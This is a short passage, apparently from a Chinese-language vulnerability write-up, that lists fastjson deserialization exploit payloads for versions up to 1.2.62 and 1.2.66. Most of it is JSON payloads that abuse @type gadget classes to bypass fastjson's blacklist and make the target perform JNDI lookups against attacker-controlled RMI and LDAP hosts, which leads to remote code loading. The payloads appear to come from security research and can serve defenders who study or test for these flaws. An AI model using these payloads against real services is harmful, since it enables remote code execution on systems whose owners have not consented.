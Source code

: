 ### 2.7 fastjson&lt;=1.2.62漏洞详情

##### 基于黑名单绕过exp：

```php
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://x.x.x.x:9999/exploit"}";
```

### 2.8 fastjson&lt;=1.2.66漏洞详情

##### 也是基于黑名单绕过，autoTypeSupport属性为true才能使用，（fastjson&gt;=1.2.25默认为false）以下是几个exp：

```php
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransacti
on":"ldap://192.168.80.1:1389/Calc"}}
```